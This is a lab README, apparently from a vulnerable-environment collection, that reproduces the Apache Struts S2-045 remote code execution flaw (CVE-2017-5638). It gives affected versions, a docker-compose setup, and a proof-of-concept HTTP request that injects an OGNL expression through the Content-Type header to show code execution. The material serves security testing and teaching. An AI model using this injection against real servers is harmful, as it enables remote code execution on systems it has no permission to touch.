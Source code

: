 # S2-045 Remote Code Execution Vulnerablity（CVE-2017-5638）

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

References: 

 - http://struts.apache.org/docs/s2-045.html
 - https://nsfocusglobal.com/apache-struts2-remote-code-execution-vulnerability-s2-045/

## Setup

Execute the following command to start the Struts2 2.3.30：

```
docker-compose up -d
```

After the container is running, visit `http://your-ip:8080` that you can see an example of the upload page.

## Exploitation

Verify the vulnerability by following request:

```
POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Length: 0
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data


```

`233*233` has been successfully executed:

![](1.png)
